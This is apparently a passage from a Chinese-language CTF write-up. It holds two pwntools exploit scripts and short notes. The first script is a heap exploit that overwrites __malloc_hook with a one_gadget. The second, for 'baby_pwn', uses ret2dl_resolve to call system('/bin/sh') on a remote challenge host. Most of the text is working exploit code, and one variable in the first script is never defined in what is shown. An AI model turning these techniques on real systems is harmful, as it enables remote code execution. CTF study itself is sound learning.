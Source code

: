 ```python
p.readuntil("1 : ")
heap=u64(p.readuntil("=")[:-1].ljust(8,'\x00'))-0x41

add(0x18,p64(0x68)+p64(heap+0xd0+0x10))#2
add(0x68,"A")#3
add(0x68,'A')#4
free(3)
free(4)
idx=(heap+0xa0-0x0602060)//16
free(idx)
libc=ELF("/lib/x86_64-linux-gnu/libc-2.23.so")
libc.address=base
add(0x68,p64(libc.symbols['__malloc_hook']-35))#3
add(0x68)#4
add(0x68)#5
one=0xf02a4
add(0x68,'\x00'*19+p64(one+base))
free(3)
free(5)
log.warning(hex(base))
log.warning(hex(heap))
#gdb.attach(p,'b *0x000000000400C16')

p.interactive()
```
# baby_pwn
...这题就不敢恭维了..
这题我在前几天的[博客里][1]刚总结过...差不多的..这里不多说
结果本菜鸡 bss设置错误导致我弄了1小时45分才做出来...
## 经验
* dl的题目变化不大 特点是没有leak 有溢出
* 照着上次总结的模板改就可以
* 如果调试有问题先换换bss看看能不能运行过前面一些基本地址获取
* 注意是否可以获得符号`<_dl_fixup+166>    add    eax, dword ptr [ebx]`此条过后eax应该指向`fake_strtab`的`system`


```python
from pwn import *
context.log_level='debug'
context.arch='i386'
#p=process('./pwn')
p=remote("39.97.227.64",56833)
got=0x804a00c
read=0x8048390
rbp=0x080485db
ppp=0x080485d9
ret=0x080481ab
bss=0x0804a810
plt0=0x8048380
strtab=0x804827c
dynsym=0x80481dc
dynrel=0x804833c#plt
p2=flat(
[got,0x07+(((bss+0x10-dynsym)/0x10)<<8)],bss+0x28-0x804827c,bss+0x28-0x804827c,# DYN_REL & ALAIGN
[bss+0x28-strtab,0x12,0,0,0,0],#DYNSYM
)+"system\x00\x00"+"/bin/sh\x00"#DYNSTR

payload="\00"*0x28+p32(0)+p32(read)+p32(ppp)+p32(0)+p32(bss)+p32(0x597)+p32(plt0)+p32(bss-dynrel)+p32(bss+0x30)*2
p.send(payload)
#gdb.attach(p,'')
```